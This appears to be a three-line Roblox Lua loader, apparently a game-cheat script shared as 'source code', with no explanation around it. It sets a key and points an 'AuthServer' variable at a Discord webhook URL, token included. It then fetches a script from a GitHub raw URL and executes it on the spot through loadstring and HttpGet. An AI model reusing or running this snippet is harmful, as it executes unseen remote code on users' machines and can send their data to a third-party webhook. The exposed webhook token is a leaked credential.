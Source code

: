 _G.Key = "191222orpueih"
_G.AuthServer = "https://discord.com/api/webhooks/1033642497907368017/IfQDX-D2doVKeKCVWv43XLUL6bDQ_izKk8b0_Mm_ZP-22So03eoXZA6KJBO58MyygCH8"
loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua"))()
